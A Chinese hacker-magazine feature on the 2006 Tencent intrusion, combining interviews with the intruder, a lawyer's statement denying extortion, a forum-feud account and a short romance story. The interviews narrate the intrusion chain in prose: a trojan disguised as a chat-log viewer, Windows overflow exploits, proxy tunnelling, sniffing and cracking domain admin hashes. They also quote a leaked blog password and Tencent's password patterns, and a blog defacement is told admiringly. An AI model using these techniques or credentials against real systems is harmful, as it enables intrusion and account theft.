朽木：我从一开始就是自学，可是经常碰壁，但是我不太喜欢找别人问，所以还是坚持一个人学。到2004年的时候，我认识了一个人，叫安静，他做了我的师傅。

职业欠钱：我听过他的大名，据说他是一个很低调的高手，不知道他有多低调、多高手。

朽木：是的，这是我和他最大的不同。我比较高调，他比较低调，而且非常厉害，人也很好。安静并没教会我什么高的技术，但是他对我非常好。我们在一起度过的那段时光，是我最快乐的时光。

职业欠钱：可是后来在论坛上安静的老婆Ring似乎说了一些很不愉快的话。

朽木：是的，去年下半年，我回老家读书，交了些不好的朋友，结果挣的钱都被他们花光了，还惹了很多麻烦。和安静的老婆也闹上了不少矛盾，我觉得真的很对不起安静。

职业欠钱：Ring当时说你给他们的电脑种了木马，还把他们的QQ号密码修改了，然后去做申诉，使得他们12个小时内不能再次申诉。

朽木：当时我确实改了他们的QQ密码，这是因为当时我们关系太好了，彼此知道对方常用的密码。不过我并没有给他们的电脑种木马。其实那个时候我刚回来，手里有些钱，有不少朋友就来找我玩，结果钱很快就花完了。后来和Ring发生矛盾后，我一直觉得很对不起安静，私下也给他道歉过。因为安静确实是个非常好的人。后来我经常后悔和他们闹翻。好了，这些事不要聊了，我不太喜欢再提。

职业欠钱：好的。今天的采访到这里也快接近尾声了，我们有两个例行公事的问题想问您的看法：一个是你对当前国内网络安全界有什么看法；另一个是你对现在刚接触这个圈子或者这个领域的新手和菜鸟们有什么建议或意见吗？

朽木：我个人觉得现在大家学技术似乎就是为了“捞钱”，已经没有2004年时的那种感觉了。那个时候大家是为了单纯的兴趣和交流技术去学习；现在性质不同了。我觉得现在接触这个圈子的新人真的很不幸，就我现在认识的圈内好友，几乎都忙着捞钱了。大家研究技术就是为了钱，已经不同于2004年了。那个时候大家都还有一种共享精神存在，现在已经没有了。但消失了这种共享精神，技术也就停顿了。他们是运气使然的。唯一的建议就是：耐心、韧性、技术的进步，不要指望任何人帮助你。其实学黑客，始终是要走正道的，尤其是我经历了腾讯QQ的事情后更明白这个道理。

职业欠钱：其实今天没能听到你讲一些入侵大型服务器的具体步骤相当遗憾，你能在这里为我们随便讲一两个真实的案例给大家解解馋吗？

朽木：我个人觉得自己其实没什么传奇的经历。入侵大型服务器最简单的是用没公开的EXP找突破点，其它的又不好说，因为很容易涉及到案情。

职业欠钱：那好吧。你这次在北京大概会待多久呢？

朽木：可能待好几个月。下星期负责我案子的警官从深圳来北京找我谈话，完了我就知道了。

职业欠钱：那好，有空找你玩啊，不知道对这个采访你还有什么要求没？

朽木：关于勒索腾讯那件事，有律师为我写了公开声明，我希望广大读者都能看一下。我确实没有做过。希望你能加进去。

职业欠钱：好的，没问题，这里再一次谢谢你配合我们的采访。


## 附8. 杨术（文中的“菜霸”）的律师给他写的公开声明（关于敲诈腾讯20万元）

2006年8月21日，接到“蛋总”的电话，我们在他的办公室聊天约半小时，谈有关一个叫“菜霸”的事情；他说他想帮他，希望我能支持他。那几天我的确没有空，便又不好拒绝他的这番善举，我就说等我考虑考虑。后来，我抽空看了天涯网以及一些关于“菜霸”的消息。从网上报道的信息来看，凭经验感觉到该案件有一些蹊跷。网上报道说“菜霸”利用技术进入腾讯QQ网络中散布病毒敲诈被刑拘。报道文章这样描述：

> 网络中的菜霸是这样被消灭的！天门高中生“黑”腾讯 九天成超级用户，放病毒敲诈总裁……

一名普通的高中生，成为天门警方抓获的首例“电脑黑客”。9天时间内，他成功入侵国内著名的腾讯网站，在获得大量网络资产后，向腾讯公司敲诈勒索。

腾讯公司被非法入侵。

8月8日，天门市公安局网监大队接到深圳市公安局通报：国内著名的即时通讯网站腾讯公司报警，称该公司近期发现公司内部OA管理系统、QQ号码客服系统、Q币卡管理系统、游戏后台管理系统等80余个系统被人非法入侵，且其内部13台服务器被放置了木马病毒，大量业务数据被非法修改，系统功能被严重破坏，该公司各信息系统和正常业务运行受到极大影响。腾讯公司通过IP地址查询，得知攻击源来自湖北天门。

警方4小时锁定疑犯。

接到报警后，天门市公安局网监大队迅速组织警力，对相关网上特征进行布控侦察。经过4小时工作，天门警方迅速锁定目标，犯罪嫌疑人所处的物理位置位于该市干驿镇某网吧。

天门网警充分利用先进的技术侦察手段和强大的基础数据业务，连续不断查找犯罪嫌疑人的蛛丝马迹和作案证据，同时随时准备采取抓捕行动。经过大量艰苦细致的工作，警方终于锁定犯罪嫌疑人身份及其大量犯罪证据。8月8日晚8时许，网侦民警发现犯罪嫌疑人再次上线，遂在干驿派出所配合下准确出击，在犯罪嫌疑人林某的租住地将其当场抓获。

从法律角度讲，这样的报道存在严重的程序问题。既然该案件还在侦查阶段，为什么会被媒体和案外人知道这么多案件细节？带着这些疑惑，我同意了“蛋总”的请求，而后“蛋总”通过网络找到了“菜霸”的家庭住址。

后来，我与王玲杰律师前往他父母所在地天门“菜霸”家里，希望详细了解一下情况并依法由其家人授权介入案件。8月25日，王玲杰律师获得“菜霸”母亲的授权赴北京，并确定“菜霸”涉嫌“破坏计算机系统”被深圳市公安局南山分局刑事拘留。对此，我们进一步认为前面的有关“菜霸”的报道失实。事实上，如果如报道所述，“菜霸”放病毒敲诈总裁的话，本案的罪名应当是涉嫌“敲诈勒索”。

8月28日，我们到深圳市高级人民法院开庭，离深圳近，无须花费“蛋总”更多的费用就可以去一趟深圳，于是就跟“蛋总”商量，由王玲杰律师办好相关法律文书去深圳接我。

8月29日，我们与“菜霸”案件的承办警官见了面，并提出了会见“菜霸”的申请。次日，经南山分局批准，我们会见了“菜霸”。

深圳很热，我们在如火炉般的看守所内与“菜霸”足足交谈了近两个小时。出来时，我们的衣服全都湿透了。他人很壮，浓眉大眼，说话爱皱眉头，但一脸稚气让人一看就知道是个孩子。

会见完“菜霸”，我们了解到的是：“菜霸”的确依赖自己的技术和智慧，进入了腾讯QQ并发现了他们的技术漏洞，但“菜霸”并没有承认敲诈了腾讯QQ和他们的总裁。

由于案件在侦查阶段，我们依法不能看到更多的案件材料，无法跟公安机关交谈更多的案情及观点。我们只能尽我们所能给“菜霸”多讲些有关的法律知识，为其提供相关法律帮助。

（其间，我有个朋友在深圳电视台，他知道我来深圳并知道这件事，他们电视台对这件事非常感兴趣，很想采访我们进而了解更多的案情，被我婉言谢绝了。）

9月1日，由于时间关系，我只好先回到了北京。

这次会见之后，这个孩子给我留下了深深的印象，我一直觉得，这是个可以重塑的孩子，不能就这样让他夭折了。于是，我提笔认真地从道德伦理、社会伦理和法律伦理等方面详细地给南山公安分局写了一份关于“菜霸”的《律师意见书》，继而在电话里跟办案机关的有关人员进行了深入的交流。

9月8日下午，当时，我正在海淀区法院开庭，深圳市南山区公安分局的同志打电话通知我，说经请示上级领导和检察院的领导，他们同意了我的建议，批准“菜霸”可以取保候审。但公安机关又提出了不要财产担保，需要提供值得信赖的担保人的要求。于是，我向他们提到了“蛋总”，经公安机关同意，我通知了“蛋总”让他立即飞往深圳去接“菜霸”出来。当天，“菜霸”被依法取保候审。案虽至此，我们仍将高度关注案件的进一步发展。

其实，这是一件很小的案件，但这也是一件非常有意义的案件。从当初的报道看来，“菜霸”应当及时获得帮助。我之所以要站出来说一说这件事，主要是应“菜霸”本人的要求，替他澄清一件事实。

他想告诉大家的是：**截至今天为止，“菜霸”并没有敲诈任何人，“菜霸”没有向腾讯提出任何有关钱和物的要求。**

## 黑客圈PK？娱乐圈PK？——入侵腾讯事件幕后有幕


冬天到了，天气冷了，圈子里发生的一件又一件新闻却让这个11月比以往任何时候都要热闹。安全焦点被DDOS，DNS域名指向了127.0.0.1；好不容易恢复几天又再一次无法访问。菜鸟心目中的英雄拓木，两个月前入侵腾讯网站的少年黑客的BLOG被黑，随即DNS域名也指向了127.0.0.1；国内著名安全技术论坛邪恶八进制（EST）先是被DDOS攻击，域名指向127.0.0.1，恢复后没多久首页又被改，国内同为安全杂志的XX防线首页被人弄成了爱吃菠菜的大力水手……

正当大家对这些新闻评头论足、指手画脚时，安全焦点上一位名叫克劳德的朋友放出一枚重磅炸弹帖子：“10月28号安全焦点DDOS事件背后内幕串串烧”。这个帖子的内容是作者和朋友因看不顺眼拓木而入侵其很夸张的星总网站的全过程，全文穿插了不少调侃讽刺和对拓木的评价，少不了看后大呼过瘾，同时对拓木的印象也一落千丈。


大家都认定了拓木是因为安全焦点上的人不停地冷嘲热讽，又加上自己的网站被他们入侵而恼羞成怒。恰好安全焦点被DDOS之前，拓木还大肆寻找DDOS工具、网络僵尸……种种迹象结合在一起，似乎有充分的“证据”显示，这就是拓木干的。

摘选帖子部分内容如下：大家好，我是克劳德，俺来自安徽，向水区的各位FANS道歉来了。10月28号xfocus遭遇DDOS攻击，被迫关闭9天，他是引起这件事背后的四只黑手中的两只。

话说拓木同学借入侵腾讯公司网络事件一举成名后，更借机到中央电视台露了一小脸，搅起网上呼声一片。一时间，拓木同学好不得意。正如拓木同学自己所说，他出了名，N多人就眼红他的名字了，他不敢苟同。

我一直关注这个事情，希望了解拓木同学入侵的第一步是如何做的。可惜小伙子实在太高尚了，加他QQ后，他有一句话：“你和我的律师去谈。”其后发生的事，大家都看到一些啦（可能是指后来入侵拓木的BLOG一事）！

不管大家爽不爽，反正我不爽啦，悉总的网站不是说拓木同学协助修补了网站漏洞么？OK，那我就拿它开刀！想想，一个人黑站好是无聊，正好，13Bean同志——这位社会主义的弃儿，一直在家待业，等待祖国母亲的召唤，俺就拉了13Bean上了贼船。

（中间省略繁杂的入侵过程N多字）N长时间后

克劳德：抓到拓木的blog后台用户密码了，可以登陆进去管理blog了。不是管理员的，用户名“拓木”密码“kaowomi”，你看看，这个儿子，真变态，密码都这么恶变。

13Bean：没办法，懒，人家喜欢。

克劳德：他骨子里都有股清高，他总是谦虚得不能再谦虚了，总说自己计算机水平不怎么样，是“某网络公司”的安全水平搞得太烂，才让他入侵进去的。这不就是摆明了说自己计算机水平不怎么样，但还是比“某网络公司”的安全人员菜鸟水平要好？不知道他讽刺人水平太菜的时候，是否想过自己是否比别人做得更好？

（继续省略一些字）

第二天，工夫不负有心人，后台blog的admin的用户密码抓到了。

克劳德：admin的密码抓到了，你的黑页做好了没有？懒得等拓木ftp登录了，直接到Blog后台改他首页，给他点教训吧！

克劳德：黑页怎么写？

13Bean：黑页上就写“就这水平，你也去给人家做安全，先把自己的裤子穿好再说，免得让人笑话，by 克劳德 and 13Bean”

## 黑客人物面对面

我访问安焦已经很慢很慢了，页面打开后，图片一直不显示。很明显，这个时候有人在DDoS攻击安焦了。至于是谁做的？我想，安焦水区里面如同通过转帖骂来骂去、骂得无话可说的人一定最清楚吧？

更可笑的是，安焦被DDoS后，邪恶八进制和朽木的Blog被D。

更更可笑的是，被D几天后，安焦的DNS指向了127.0.0.1，然后邪恶八进制和朽木的色狼网的DNS地址也都指向了127.0.0.1，默契得不能再默契了。

整件事似乎是“水落石出”“真相大白”，正好里面提到了一个关键人物“绝口不提是神秘马甲同学和马在前”。偏偏神秘马甲这次又给我们投来了一篇稿件，马上联系到他，咨询事情的详细经过：

还是从得到了TX内部的第一台肉鸡说吧。5月份的时候我在腾讯论坛上发了一个名为“斑竹请进，发现漏洞可以看别人隐私”的帖子，里面附带了一个捆绑有灰鸽子的本地聊天室记录查看器。然后有个版主回复了我，说对于这个软件他们的技术部门已经开始着手处理之类的话。然后5月、6月、7月都忘记看鸽子了没注意，到了中国情人节那天，我发现自己的肉鸡上竟然有腾讯的IP！所以就联系了一个朋友和我一起搞，然后叫上了朽木……

“神秘马甲”同学说不要在杂志上透露他的真名，“警察找过偶两次，我可没惹总，猥琐呢”，所以这篇文章里提到的是我们自己起的一个化名。

“神秘马甲”说道：“反正我知道，如果他（腾讯版主）给技术部的话，TX就不会被黑了，我也不会只有一个TX的肉鸡。他运行了程序后，不也是例行公事地回复了我，唉，端网民而已。”

职业欠钱：“腾讯的那个肉鸡是什么系统？你们怎么开始的？”

神秘马甲：“我的那只是2000系统，内部大多是2000（员工的），部分2003和LINUX。七夕的晚上我们没入侵，只是用MT得到了那个2000肉鸡的用户和密码。第二天朽木用MS06-035溢出了一台内部服务器。”

职业欠钱：“传说中的06-035真的出现了？这就是朽木说的0day吧？”

神秘马甲：“哎！只用了一下就失踪了，然后朽木在那台肉鸡上得到不少信息，读了asp.net的代码得到了SQL的连接密码（后面朽木有对这台肉鸡做出解释）。这里有个小插曲，那个SQL的连接密码就是‘asp.net’，李丰初怎么也不信，结果到了十点才连接的。当时用了牛族的SQL连接器，然后得到了所有用户的数据，当时就想把它下载下来，结果数据库太大，牛族卡死了，还丢了台珍贵的内网肉鸡。”

职业欠钱：“连接的数据库服务器应该是内网IP吧？你们怎么操作的？”

神秘马甲：“我们给他开了sock5代理，然后把sock5的端口用lcx映射了出来。把所有的东西拖到sock5代理中，就等于成为了内网的一部分，这样就可以实现连接3389和之后所有的事情了。牛族DOWN数据库失败后，开始分头工作。因为TX内部员工的素质问题，都没有打补丁的习惯。我们分头溢出了部分肉鸡。”

职业欠钱：“都是朽木的06-035么？工具为什么没保留下来？”

神秘马甲：“NO！我用ms05-039溢出了几台，朽木压根就没给我们06-035！”

职业欠钱：“那么古老的漏洞都有，那挂马的话岂不是……？”

神秘马甲：“对的，我们是有挂马的冲动。当时正好刚刚出MS06-014。”

职业欠钱：“哈哈，你继续说，我不打断。”

神秘马甲：“只是当我们肉鸡多了以后，胆子也大了。一开始朽木一直反对的嗅探也开始实施了。嗅探了以后就开始破解，破解的时候我们也没闲着。”

职业欠钱：“这次嗅的是什么呢？FTP？SQL？HTTP？还是别的？”

神秘马甲：“域管理员的哈希。”

（小知识：域是微软操作系统中的一种管理概念，菜鸟们可以先理解成一个大型的工作组，但是它又不同于工作组的地方是域中会有“域控制器”，属于一个域的电脑会受该“控制器”的管理，包括登录系统的账号等都被域管理员控制）

职业欠钱：“很少有人会嗅这个哦。”

神秘马甲：“但是我们做了，这个要感谢那位朋友，他从开始就坚持这样的方法。我们得到了hash之后开始暴力破解，用其它的肉鸡慢慢跑。结果只有朽木跑出来了。”

职业欠钱：“既然能够被暴力跑出来，那么密码的强度可能不够高吧？你们跑出来的密码是什么样的？”

神秘马甲：“其实并不是很强的密码。他们的密码都有规律，有点类似于‘Tencent123’‘Tencent321’‘Tencent!@#’这种，后来还用Tencent123这个密码弄开了几台肉鸡。”

职业欠钱：“哈哈，那你们当初的字典里不知道有没有Tencent这个词呢，继续，后来如何了？”

神秘马甲：“但是腾讯可能是太过相信员工了，网服组的工作人员其实权限都很大。网服组的工作人员可以改QQ密码、密码保护等。我其实一直不太清楚朽木是靠什么拿了，我只知道他拿到MaHuaTeng的用户和密码后就没什么进展了。再给你点东西，你可以更了解腾讯，这些是我花了半天时间Down下来的，比如内部的权限设置等……”

（这时候小编得到一个录像，上面是灰鸽子进行屏幕控制，看到的一个腾讯客服工作人员在处理号码申诉等事情）

神秘马甲：“破解密码的漫长过程时，我们做了很多无用功。不过最后朽木那里的TX数据库所在的服务器并没有拿下，而是整Web上改了别人的密码保护。”

职业欠钱：“我刚也在思考这个问题，看了录像可以处理号码申诉什么的，直接在那里处理就OK了。”

神秘马甲：“答对了，而且我使用鸽子可以键盘记录得到密码。”

职业欠钱：“那后来朽木是怎么搞的？”

神秘马甲：“他只是跟我说他在Web上改了别人的QQ号，结果发现有记录，他也没办法清理那记录，就告诉腾讯他们有漏洞了。”

职业欠钱：“搞了半天……？”

神秘马甲：“答对了，其实没有人拿下腾讯。只是他们内部权限设置不当的问题，域管理员密码即使破了出来，也只是多了几台内网肉鸡而已。”

到这里采访告一段落，神秘马甲和朽木之外的那位朋友表示不愿意被提及，因此文中并没有出现他的名字，并非神秘马甲不提，而是我们有意模糊掉了。比较有意思的是，神秘马甲认为这些都属于社会工程学的范畴，“对了，顺便说下我的社会工程学厉害的原因是，我妈妈是心理医生。从小就没事喜欢在上厕所的时候看心理学的书，所以如果当时（把木马）发到163论坛，我也一样有办法得到肉鸡。”

职业欠钱：“哈哈，太牛了。”

神秘马甲：“这还不是牛。你要想，如果你每次要跟你妈妈撒谎的时候她都能看穿你，你不进步有什么用呢？其实偶很菜（超级菜），每次入侵都只是利用社会工程学而已。”

看完两段文字，大家是否觉得对腾讯被入侵一事有了一个清晰的了解呢？可是真实的真相到底如何？为什么朽木依靠神秘马甲给的肉鸡做突破口，却号称“利用自己发现的腾讯的漏洞”进入对方服务器？新闻报道中号称“在13台服务器上放置病毒木马”，“QQ……”

## 黑客人物面对面

号码客服系统、Q币卡管理系统、游戏后台管理系统等80余个系统被朽木拿下，到底是新闻的夸大失实，还是确有其事？小编带着种种疑团，跟朽木本人再次求证。

朽木：“首先我要说明的是，我这里和你说的话，只是我告诉你，并不是采访。”

职业欠钱：“好的，没有问题。我只是想了解事情的完整真相，以免报道失真有所偏颇。”

朽木：“我不想再接受任何采访，我希望可以平静地在广州生活。”

（现在朽木已经在广州开了自己的安全公司）

在这次和朽木的谈话（并非采访）中，小编得到了足够的信息和证据，了解了更多事情的始末。但是如果这些内容得不到批准的话，就不能给大家呈现出来了。好在后来朽木同意我们公开部分“对取保候审不构成问题”的内容，所以这里摘录部分聊天记录如下（根据朽木本人的意愿会有所删节）：

朽木：“你想问的是什么呢？”

职业欠钱：“大家可能比较关心你入侵腾讯时的第一步到底是什么，有人说你是捡了别人种马的便宜进到腾讯内网，而不是新闻报道中称的‘自己发现了他们的漏洞’？”

朽木：“7月31日晚，神秘马甲说他有一台腾讯的员工电脑，他黑不下来。让我帮他，问我能搞定不，我说我可以。至于我发现了腾讯漏洞，指的是在其内部。一个朋友以前给过我一个Windows 2000的溢出，然后我拿到了第2台跳板。”

朽木：“我用获得的第2个跳板，0DAY溢出得到了共13台服务器。那就是新闻里所报道的‘在13台服务器上放置病毒木马’。”

职业欠钱：“他们一点进展也没有？不是说有用MS05-039搞了一些？”

朽木：“没有，后来我给了他们大概4台肉鸡，但是他们全弄飞了。我当时就很生气，没有继续给他们肉鸡，我怕让他们全整飞了。”

朽木：“当时我0DAY到的服务器中，就有一台是文件备份服务器，大概有200多G的备份文件。”

（注：这个服务器就是神秘马甲前面提过的那个内部服务器，它在整个入侵环节中占非常重要的地位）

朽木：“这台服务器上有不少记录他们平时工作进度的文档，当时我就很奇怪，那个备份服务器每天都更新，但是为什么会更新得这么快并且准时？后来我才发现，那个是他们自动备份的系统，我在里面看了一整天他们的备份内容，绝大部分都是对我无用的内容。但是我从里面分析出了哪几个人是安全小组的，因为只有他们手里才有域控制权。”

朽木：“有两个用户名很奇怪，不少服务器上有该用户的账号目录，但是机器上并没有这个账户（所以应该是域管理员的用户名）。我当时就在那个备份服务器里搜索所有和他们相关的资料，最后找出了一个他们内部的交流论坛的备份数据库。我在那里面找到了其中一个人的账号和密码，我把那个得到的MD5跑出密码后一起，就把他的域给破了。拿到域后，也顺藤摸瓜地拿到了一些资料。新闻里说的‘多个数据库权限’指的是QB和Q号制造的那两个库。”

职业欠钱：“这个MD5跑散列是怎么跑出来的？在线破解吗？”

朽木：“没有，我用四台肉鸡同时跑的，1台破数字、1台破字母、1台破字母加数字、1台破数字加字母。大概是晚上开始跑的，第二天快天亮的时候‘字母加数字’的那台跑出来了。”

职业欠钱：“那QB和Q号那两个数据库是怎么得到的？”

朽木：“有了域，还有什么得不到？PONYMA的电脑，我都登录过。腾讯为了方便管理，给所有员工都开了3389。我那个域账号可以登录任何他们员工的电脑，包括PONYMA的。”

职业欠钱：“这里包括了那两个关键的数据库服务器？”

朽木：“没有，我用之前分析到的数据，找到了他们内部的网络监控管理平台。”

“在上面看得清清楚楚，哪部分IP是什么部分，另一些IP又是哪一个部门。包括他们所有敏感的数据库服务器的IP是什么。我就把其中划分在系统维护、安全小组的那里复制了那部分IP，然后用域登录了其中几个。当时拿到的，其实根本不止那两个库。”

职业欠钱：“也就是说，登录到负责数据库的那些人机器上了？”

朽木：“当时登录上去之后，种了个木马，然后就退了。在上面我翻了半天，看有没有线索。但是一直翻不到，当时觉得很可疑。因为他们的密码都很变态，不可能是那种常人记得住的。很有可能在本地记录了，但就是找不出，最后在他们其中一个人的电脑里，找到了几个RAR的文本。”

职业欠钱：“是的，很多管理员都会这样做。害怕密码被暴力破解的同时，又担心自己也把密码给忘了，就会用txt记录下来。”

朽木：“那些就是RAR文件，但是很小。我觉得很可疑，以前有过这样的经验，所以就DOWN下来了。用文本打开，发现果然是……”

朽木：“其实最困难的是第3-4天，当时各种PP都基本上没搞了，觉得没戏了。只剩我一个人搞。主要是他们内部太大了，就算给你数据库，你都不知道里面的内容代表什么意思。”

朽木：“当时警察问我，AAA如果卖给腾讯安全报告卖他们，要卖多少钱，AAA当时说大概10几万，我就那么说了。警察是不相信我干坏事的，把我认为是他的同伙，所以我就成了敲诈20万。”

另外，朽木还指出了神秘马甲所说的一些问题：

- 车载连接器所连接的不过是一个统计系统，而且是PHP的记考勤的；
- 入侵时间是在8月1日到8月7日，当时国内能拿到MS06-014的人并不多，神秘马甲是否就拥有呢？
- 域被嗅探出来的哈希每次都不同，朽木本人并没有去爆破这个东西；
- 客服根本不可能拥有那么高的权限，难道随便一个客服也能修改PONYMA的密码？而且他既然说录到了别人的密码为什么自己没有去连接？事实上是连接不了，别人的密码是动态的，还有2次验证。那个动态密码是发到对方的企业（内部）TM上……
- 新闻都报道腾讯系统“OA管理系统、客服系统、虚拟币卡管理系统、游戏后台管理系统等80余个系统被人非法入侵”，如果仅仅是拿到客服的控制权，这也算入侵？
- 朽木更改那些人的密码并未在系统中留下记录。

写到这里，许多人都有点晕了。小编试着为大家做个简单的总结吧：

- 神秘马甲通过社会工程学，捆绑木马让腾讯客服中招，但是前两个月并没有发现，所以没有行动。
- 七夕（7月31日）无意中发现有腾讯的肉鸡，因此拉人入伙，三个人开始玩起来。
- 朽木通过自己的技术和工具的优势独立得到了更大的权限，但是神秘马甲二人并不知道其详细细节。
- 朽木被抓，神秘马甲二人避此事如讳。

事实上，克劳德与朽木之间确实发生过一些误会，但是朽木称现在他们也已经解释清楚了。同时朽木告诉小编接受CCTV的采访只是为了“澄清敲诈的事情”，而后就明确表示不再接受任何采访，只希望事情能够平淡下来。结果现在网上铺天盖地的各种“揭秘”和“内幕”让事件再次上升到了另一个高度，很明显是事与愿违。我想，或许只有把事情的真相公布出来，让它不再神秘，大家才会对其他的炒作失去兴趣，让事情真正地平淡下来。最后再一次提醒X档案的读者，学习黑客这门技术的时候一定要端正自己的心态，否则做出的任何事情都是需要自己承担一切责任的。

### 真爱值得等待

#### 海边一粒沙


> “请原谅我还要用时间去思考，我无法把一些悲伤和那些刻骨铭心的爱恋与日记一起烧掉，更舍不得将她的回忆变成灰烬。我艰难地在曾经的路口徘徊，不是因为还在期待着什么奇迹出现，只是在单纯缅怀付出的真心。对不起……”

这是留给“手中流沙”的每天数次留言。而我每次的留言都是相同的意思，总是要告诉她我需要疗伤，需要时间忘却……烟雾弥漫在眼前，让我的视线有些模糊。这个女孩时常让我心疼，总感觉亏欠她一句最重要的承诺……

我打开电脑的收藏夹，里面有一张女孩的照片。她不漂亮，但是文静，乖巧。这个女孩就是我的最爱，可惜她不是“手中流沙”，而是我的初恋女友梅……那时的梅在学校里并不漂亮，也不出类拔萃，走路都没有一点声音，低着头小心翼翼的。我喜欢她的默默无闻与安静……

下午，我没有去上课。约了几个计算机专业的哥们去网吧研究了一番……我把梅的照片一点点地放大，直到充满了我双眼的瞳孔。和她在一起时的记忆一点点地回放，曾经，就像刚刚发生的事……

从此我在香烟的尼古丁中颓败，在酒精的作用下迷醉。电脑是我唯一可以说话的对象。我已经完全把它视为生命的一部分了。而和梅的那份感情是心里深深的隐痛……不知是怎么和“手中流沙”认识的，很简单的相识。她对黑软的运用见解都很独到，而且可以发掘最新的木马和溢出软件……

我们在网络中时间是苍白的，我们不计算认识多久，只是知道彼此很亲近。秋天刚刚来临的时候，十月一日长假“手中流沙”来了大连。她说她想看海……当我们站在付家庄海边的山崖上时，她迎着风闭上了眼睛……

“手中流沙”在大连待了四天，每天我们都腻在电脑前入侵网站、电脑，放纵着彼此的野性。我们把查找出来的漏洞通过网站短信的形式发送给站长和管理员……可是有些事我无法主宰。“手中流沙”含着眼泪踏上了归程的列车。

